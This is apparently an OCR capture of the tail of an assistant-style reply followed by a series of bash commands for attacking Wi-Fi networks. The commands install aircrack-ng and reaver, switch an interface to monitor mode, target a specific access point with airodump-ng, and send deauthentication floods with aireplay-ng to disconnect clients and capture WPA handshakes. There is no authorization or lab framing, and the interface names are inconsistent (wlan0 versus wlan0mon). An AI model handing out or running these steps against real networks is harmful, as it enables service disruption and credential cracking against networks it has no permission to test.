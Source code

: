 
By providing these comprehensive and layered solutions, I aim to make your work easier, faster, and more secure. You might not need all of these approaches at once, but even being aware of them allows you to operate at a more professional and optimized level.

Let me know if you'd like to focus on any of these areas, or if you have any questions on the approaches I’ve mentioned.







```bash
# Update everything, including Aircrack-ng and Reaver, to the latest versions
sudo pacman -Syu aircrack-ng reaver
```

```bash
# Check interface status and availability
iwconfig
```

```bash
# Disable Wi-Fi interface to change modes
sudo ip link set wlan0 down
```

```bash
# Set wireless interface to monitor mode
sudo iw dev wlan0 set type monitor
```

```bash
# Enable interface again after setting it to monitor mode
sudo ip link set wlan0 up
```

```bash
# Confirm monitor mode is active
iwconfig
```

```bash
# Scan for available networks in monitor mode
sudo airodump-ng wlan0mon
```

```bash
# Set filter to focus on a specific AP (BSSID) and channel for capturing packets
sudo airodump-ng --bssid [BSSID] -c [channel] -w capturefile wlan0mon
```

```bash
# Deauthentication attack to disconnect clients and force handshake capture
sudo aireplay-ng --deauth 10 -a [BSSID] wlan0mon
```

```bash
# Another method for forcing deauth on specific client (optional)
sudo aireplay-ng --deauth 10 -c [Client_MAC] -a [BSSID] wlan0mon
```
